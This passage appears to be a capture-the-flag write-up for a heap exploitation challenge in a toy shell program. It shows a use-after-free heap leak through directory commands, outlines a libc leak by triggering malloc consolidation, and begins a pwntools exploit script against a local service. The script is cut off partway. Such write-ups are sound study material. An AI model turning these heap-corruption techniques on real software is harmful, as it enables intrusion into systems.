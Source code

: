 #### Leak
* Heap address
    * Leaking heap address is pretty straight forward.

```
mkdir 'a'*0x38
cd 'a'*0x38
mkdir 'a'*0x38
cd 'a'*0x38
mkdir 'a'*0x38
cd ../../
rm 'a'*0x38
mkdir a
ls a

```
* Libc address
    * Leaking libc address is a lot more complex. Because the biggest size we can allocate is in fastbin range.
    * The idea is to first create a UAF pointer like above.
    * Exhaust the top chunk to trigger malloc consolidate. This will create libc address on the heap.
    * Make the libc address be on the UAF pointer some how some way.
    * Note that the free chunk where the UAF pointer is pointed can't be allocated during the proccess above. Therefore, it's super complex and even I can't explain how I did it... QAQ
    * Also, `ls` allocates a chunk and doesn't free it, so it can be used to exhaust heap. I discovered this pretty late, so I used both `mkfile` and `ls` to exhaust heap. The code is pretty messy because of this...

#### Exploit
* With libc, heap address and UAF, it's not too hard to exploit using tcache.

```python
#!/usr/bin/env python2

from pwn import *
from IPython import embed
import re

context.arch = 'amd64'

r = remote('127.0.0.1', 7123)
lib = ELF('./libc.so.6')

def cmd(data):
    r.sendlineafter('$', data)

def mkfile(name, data):
    cmd('mkfile '+name) 
    r.sendlineafter('Content?', data)
def mkdir(name):
    cmd('mkdir '+name)
def cd(name):
    cmd('cd '+name)
def rm(name):
    cmd('rm '+name)
def ls(name):
    cmd('ls '+name)
def cat(name):
    cmd('cat '+name)

# leak
mkdir('a'*0x38)
cd('a'*0x38)
mkdir('a'*0x38)
cd('a'*0x38)
```